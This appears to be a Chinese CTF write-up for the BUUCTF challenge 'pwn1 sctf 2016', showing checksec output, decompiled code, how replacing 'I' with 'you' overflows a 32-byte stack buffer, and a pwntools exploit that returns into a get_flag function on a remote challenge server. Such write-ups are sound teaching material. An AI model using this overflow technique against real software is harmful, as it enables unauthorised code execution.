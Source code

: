 ```yaml
---
author: 
  name: Zephyr
title: pwn1 sctf 2016
date: 2022-3-19 20:42:02
permalink: /pages/2e954742e524d18b
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# pwn1 sctf 2016

## 前提

### 查看文件保护

```shell
root@localhost ~# checksec pwn1_sctf_2016
[*] '/root/pwn1_sctf_2016'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数只调用了一个`vuln`函数，该函数如下

```c++
int vuln()
{
  const char *v0; // eax
  char s[32]; // [esp+1Ch] [ebp-3Ch] BYREF
  char v3[4]; // [esp+3Ch] [ebp-1Ch] BYREF
  char v4[7]; // [esp+40h] [ebp-18h] BYREF
  char v5; // [esp+47h] [ebp-11h] BYREF
  char v6[7]; // [esp+48h] [ebp-10h] BYREF
  char v7[5]; // [esp+4Fh] [ebp-9h] BYREF

  printf("Tell me something about yourself: ");
  fgets(s, 32, edata);
  std::string::operator=(&input, s);
  std::allocator<char>::allocator(&v5);
  std::string::string(v4, "you", &v5);
  std::allocator<char>::allocator(v7);
  std::string::string(v6, "I", v7);
  replace((std::string *)v3);
  std::string::operator=(&input, v3, v6, v4);
  std::string::~string(v3);
  std::string::~string(v6);
  std::allocator<char>::~allocator(v7);
  std::string::~string(v4);
  std::allocator<char>::~allocator(&v5);
  v0 = (const char *)std::string::c_str((std::string *)&input);
  strcpy(s, v0);
  return printf("So, %s\n", s);
}
```

查找函数表发现后门函数`get_flag`

```c++
int get_flag()
{
  return system("cat flag.txt");
}
```

## 思路分析

1. 目前信息
   - 变量`s`处可写入32字节数据
   - s距离返回地址的偏移量为`0x3c+4>32`，不够溢出
   - 存在后门函数
2. replace函数
   - 查看后发现其作用为循环检测将我们输入的字符`I`替换为字符`you`
3. 思路
   - `replace`函数在字符替换的过程中将1个字节替换为了3个字节的数据，所以理论上可以通过输入21个`I`加1个`a`的方式溢出到返回地址处，将该处覆盖为后门函数的地址即可获得`flag`

## exp

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/pwn1_sctf_2016/pwn1_sctf_2016'
# io = process(pwnfile)
io = remote('node4.buuoj.cn', 28185)
elf = ELF(pwnfile)
backdoor = elf.symbols['get_flag']
payload = flat(['I'*21, 'a', backdoor])
io.sendline(payload)
io.interactive()
```